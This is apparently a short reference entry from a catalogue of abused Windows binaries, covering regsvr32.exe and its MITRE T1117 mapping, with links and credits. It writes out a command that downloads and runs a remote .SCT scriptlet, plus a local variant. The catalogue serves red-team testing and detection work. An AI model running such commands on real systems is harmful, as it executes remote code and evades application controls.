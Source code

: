 ## Regsvr32.exe
```

regsvr32.exe /s /n /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll
Execute the specified remote .SCT script with scrobj.dll

regsvr32.exe /s /u /i:file.sct scrobj.dll
Execute the specified local .SCT script with scrobj.dll.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: [T1117](https://attack.mitre.org/wiki/Technique/T1117)   
   
* Links:   
  * https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  * https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
   
* File path:   
  * C:\Windows\System32\regsvr32.exe
  * C:\Windows\SysWOW64\regsvr32.exe
   
* Acknowledgement:   
  * Name: Casey Smith
    * Twitter: [@Subtee](https://twitter.com/@Subtee)
    * Blog: https://subt0x11.blogspot.com/
   
OS:  
